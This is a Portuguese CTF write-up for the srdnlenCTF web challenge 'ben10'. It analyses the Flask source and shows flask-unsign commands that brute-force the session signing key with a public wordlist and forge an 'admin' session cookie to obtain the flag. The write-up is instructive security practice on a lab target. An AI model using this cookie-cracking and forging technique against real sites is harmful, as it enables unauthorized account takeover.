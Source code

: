 # srdnlenCTF: ben10

**Categoria**: Web Exploitation\
**Dificuldade**: Facil (minha opiniao)

---

## Solução

### 1. Análise inicial

Ao acessar o site, vemos uma pagina de login com inputs para acessar logar, criar conta e ir para opcao de "Forgot Password"

![Imagem 1: Pagina de login](./assets/login_page.png)

---

### 2. Analisando o codigo 

O codigo da aplicacao web foi disponibilizado no desafio, bati o olho nas paginas estaticas e nao achei nada muito interessante, mas no codigo do backend que foi feito em Python usando o framework Flask, achei alguns metodos. E entre eles achei o seguinte metodo:

```
@app.route('/image/<image_id>')
def image(image_id):
    """Display the image if user is admin or redirect with missing permissions."""
    if 'username' not in session:
        return redirect(url_for('login'))

    username = session['username']

    if image_id == 'ben10' and not username.startswith('admin'):
        return redirect(url_for('missing_permissions'))

    flag = None
    if username.startswith('admin') and image_id == 'ben10':
        flag = FLAG

    return render_template('image_viewer.html', image_name=image_id, flag=flag)
```

Logo, percebi que esse era o metodo que eu deveria usar para pegar a flag. Se analisarmos o codigo vemos que ele pega os **cookies** da sessao para pegar o **username** e faz verificacoes a partir daquele **username**. Entao basta eu conseguir manipular esse username para conseguir capturar a flag! No codigo diz que para pegar a flag o **image_id** precisa ser 'ben10' e o **username** precisa comecar com 'admin'. 

Ao procurar o trecho de codigo que consigo manipular esse dado achei o seguinte metodo:

```
@app.route('/register', methods=['GET', 'POST'])
def register():
    """Handle user registration."""
    if request.method == 'POST':
        username = request.form['username']
        password = request.form['password']

        if username.startswith('admin') or '^' in username:
            flash("I don't like admins", "error")
            return render_template('register.html')

        if not username or not password:
            flash("Both fields are required.", "error")
            return render_template('register.html')

        admin_username = f"admin^{username}^{secrets.token_hex(5)}"
        admin_password = secrets.token_hex(8)

        try:
            conn = sqlite3.connect(DATABASE)
            cursor = conn.cursor()
            cursor.execute("INSERT INTO users (username, password, admin_username) VALUES (?, ?, ?)",
                           (username, password, admin_username))
            cursor.execute("INSERT INTO users (username, password, admin_username) VALUES (?, ?, ?)",
                           (admin_username, admin_password, None))
            conn.commit()
        except sqlite3.IntegrityError:
            flash("Username already exists!", "error")
            return render_template('register.html')
        finally:
            conn.close()

        flash("Registration successful!", "success")
        return redirect(url_for('login'))

    return render_template('register.html')
```

Como podemos ver, esse metodo eh para criar usuarios, voce passa o **username** e a **password** e ele insere esse usuario no banco de dados para poder fazer login posteriormente. A principio pensei em **SQLInjection**, porem ele estava usando o "?" na query e passando como parametro, assim o **SQLInjection** se torna incabivel (caso queria saber como me chame q eu explico ;) ). c

Continuando... O problema aqui esta no seguinte trecho:

```
if username.startswith('admin') or '^' in username:
    flash("I don't like admins", "error")
    return render_template('register.html')
```

Onde nos proibe de criar um usuario que inicie com **admin**, porem eh essencial para conseguirmos capturar a flag no metodo 'image/image_id' mostrado anteriormente.

Logo, a unica opcao que nos resta eh manipular o **session cookie** que eh verificado no metodo que retorna a flag, ou seja, precisamos criar um usuario normal (ex: brg:brg) e apos fazer login com esse usuario, manipular o seu cookie, aqui esta uma imagem do meu navegador com o cookie apos eu logar como brg:brg

![Imagem 2: Print do cookie](./assets/cookie.png)


### 3. Quebrando o cookie

O meu cookie eh

```
eyJ1c2VybmFtZSI6ImJyZyJ9.Z5f78g.uvTa-33GRRZ-Q3FHn80V6p0D4kY
```

Posso simplesmente decodificar o Base64, mas optei por usar o [jwt.io](https://jwt.io):

![Imagem 3: Print do jwt.io](./assets/jwt.png)

Com isso consigo ver que existe o valor do meu **username**, mas para manipula-lo eu preciso re-assinar o JWT novamente para funcionar. Achei [isso](https://stackoverflow.com/questions/77340063/flask-session-cookie-tampering) no StackOverflow mostrando como usar a ferramenta **flask-unsign** do python, que basicamente faz um **brute force** para tentar achar a chave que foi usada para assinar aquele JWT.

Pesquisando uma boa lista para poder rodar o brute force, achei [essa](https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list) no github com uma quantidade consideravel de strings. 

Enfim, rodei o seguinte comando:

```
flask-unsign --unsign --cookie 'eyJ1c2VybmFtZSI6ImJyZyJ9.Z5f78g.uvTa-33GRRZ-Q3FHn80V6p0D4kY' --no-literal-eval -w jwt.secrets.list   
```

e com isso consegui descobrir que a chave usada eh:

```
your_secret_key
```

Agora acabou, so preciso mudar o Json e assina-lo com a chave secreta descoberta, usei o seguinte comando:

```
flask-unsign --sign --cookie "{'username':'admin'}" --secret 'your_secret_key'
```

e pronto!

peguei o JWT retornado e substitui na sessao do meu navegador, e acessei o seguinte metodo 'image/ben10' e la estava a **flag**

```
srdnlen{b3n_l0v3s_br0k3n_4cc355_c0ntr0l_vulns}
```

---

## Autor da WriteUp

[Membro de Networking - leandrobalta](https://github.com/leandrobalta)